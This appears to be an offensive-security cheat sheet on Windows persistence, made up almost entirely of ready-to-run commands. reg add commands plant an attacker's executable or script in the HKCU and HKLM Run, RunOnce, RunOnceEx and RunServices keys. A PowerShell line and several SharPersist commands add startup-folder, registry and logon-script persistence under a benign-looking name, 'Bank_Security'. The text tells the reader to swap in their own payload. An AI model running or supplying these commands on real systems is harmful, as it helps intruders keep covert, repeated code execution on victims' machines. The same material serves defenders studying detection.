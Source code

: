 # Windows Persistence

### Registry Persistence&#x20;

* Just change the `example.exe or example.bat` to your executable or script or whatever you want to run
* Adversaries may achieve persistence by adding a program to a startup folder or referencing it with a Registry run key. Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. These programs will be executed under the context of the user and will have the account's associated permissions level.

#### HKCU

* Run Key&#x20;

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
```

* Service start during boot keys

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'Bank_Security' -Value 'C:\Windows\Temp\example.bat'
```

#### HKLM

* Admin privs are needed for these
* Run Key

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```

* Service start during boot keys&#x20;

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\example.bat"
```

### SharpPersist

* [https://github.com/fireeye/SharPersist  ](https://github.com/fireeye/SharPersist)

```
SharPersist.exe -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.exe" -f "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.exe" -k "hkcurun" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrun" -v "Bank_Security" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hklmrunonceex" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "hkcurunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\example.bat" -k "logonscript" -m add
```
